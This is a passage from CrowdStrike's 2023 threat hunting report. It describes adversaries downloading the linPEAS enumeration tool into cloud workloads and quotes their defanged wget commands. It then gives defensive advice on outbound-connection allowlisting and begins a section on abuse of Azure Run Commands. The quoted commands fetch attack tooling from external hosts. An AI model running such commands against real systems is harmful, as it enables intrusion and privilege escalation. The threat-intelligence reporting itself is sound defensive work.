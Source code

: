 In this second example, Falcon OverWatch observed the adversary attempting to 
download linPEAS from a common file\-sharing website after a previous attempt 
from the GitHub repository was prevented:
wget https\[:]github\[.]comcarlospolopPEASS\-ngreleasesdownload
\[REDACTED Path]linpeas\_linux\_amd64 \-O aa
wget https\[:]filebin\[.]net\[REDACTED Path]\[REDACTED FileName]
The cloud discovery module of linPEAS can allow access to sensitive information 
about cloud environments. However, these examples also highlight a long\-term, 
persistent problem Falcon OverWatch observes across many intrusions: Victim 
environments are configured in a way that enables the adversary to access external 
resources from within the victim environment to download additional malware. 
33
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
Defensive Countermeasures
On\-premises security best practices 
apply in the cloud.
In the previous examples, the adversary initiated an outbound connection from 
the cloud workload instance to an external website to download malicious files. 
Cloud workload servers should be subject to at least the same security policies as 
any other server. Best practice dictates that outbound connections initiated from 
any server should be denied other than to allowlisted endpoints.30 This practice 
accomplishes two important goals: First, it helps to deny the adversary access 
to internet resources and prevents direct malware ingress. Second, if an attack 
should progress, it makes it much more difficult for an adversary to exfiltrate data or 
establish a C2 channel directly from the compromised cloud asset to an external 
endpoint. 
Know your systems or invest in security 
measures to improve visibility.
CrowdStrike's cloud\-native application protection platform (CNAPP)31 provides 
visibility into cloud assets and can help security practitioners understand and 
improve the overall baseline security posture and compliance of their environments.
Falcon OverWatch provides added defense in the cloud for novel threats and alerts 
security teams with contextualized detection information when such threats are 
discovered in a customer's environment.
30 
For further guidance, see NIST 800\-53 REV 5, SC\-7(5\).
31 
To learn more about CrowdStrikes CNAPP solution, see https:www.crowdstrike.comproductscloud\-security.
34
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
ECRIME ADVERSARIES USE AZURE RUN 
COMMANDS TO DEPLOY MALWARE
Although not new, a less commonly discussed vector for cloud\-conscious 
execution is the use of Azure Run Commands. In the past year, Falcon OverWatch 
observed multiple instances of eCrime adversaries using this Azure feature 
to attempt script execution across virtual machines (VMs) in Azure cloud 
environments. 
Run Commands are part of the default VM agent and legitimately used to manage 
Azure VMs. Azure supports multiple versions of Windows and various distributions 
of Linux. Azure Run Commands similarly support both operating systems. Azure 
Run Commands can be executed in several ways, including from the Azure Portal, 
Azure REST API, Azure Command\-Line Interface (CLI) and through PowerShell on 
an Azure VM. An adversary can use Azure Run Commands to execute with elevated 
privileges PowerShell scripts on a Windows VM run as SYSTEM, and shell scripts 
on a Linux VM run as root. This creates potential for remote execution, lateral 
movement and privilege escalation, as such permissions to execute Azure Run 
Commands must be tightly controlled and closely monitored for any changes.
Adversaries are actively exploiting this feature in Azure. In one example, Falcon 
OverWatch observed SCATTERED SPIDER execute a PowerShell script via the 